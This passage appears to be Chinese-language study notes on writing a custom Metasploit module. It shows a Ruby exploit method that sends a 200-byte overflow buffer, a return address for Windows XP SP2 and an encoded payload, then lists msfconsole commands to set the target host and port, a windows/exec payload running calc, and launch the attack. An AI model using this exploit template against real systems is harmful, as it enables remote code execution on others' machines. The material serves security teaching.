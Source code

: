                 [ 'Windoes XP SP2', { 'Ret' => 0x7C914393 } ]
            ],
            'Payload'        => {
                'Space' => 200,
                'BadChars' => "\x00"
            },
            'Privileged'     => false,
            'DisclosureDate' => "Apr 1 2014",
            'DefaultTarget'  => 0))
        end

        def exploit
            connect # 根据设置的ip地址和端口, 连接到目标服务器
            attack_buf = 'a' * 200 + [target['Ret']].pack('V') + payload.encoded # payload在命令中指定
            sock.put(attack_buf)
            handler
            disconnect
            # print_debug('Hello, world')
        end

    end
    ```

    * 命令
        * `show exploits`: 列出可用模块(包括自己添加的模块)
        * `use <ruby脚本路径>`: 路径是相对于`/use/share/metasploit-framework/modules/exploits的`
        * `show targets`: 显示目标平台(操作系统)
        * `set target 0`: 选择第0项作为target
        * `show payloads`: 显示可用的shellcode
        * `set payload windows/exec`: 这个shellcode可执行任意命令
        * `show options`: 显示配置信息
        * `set rhost <目标ip地址>`: 
        * `set rport <目标端口>`: 
        * `set cmd calc`: 配置shellcode待执行的命令为'calc'程序
        * `set exitfunc seh`: 以seh退出程序
        * `exploit`: 发送测试数据, 执行攻击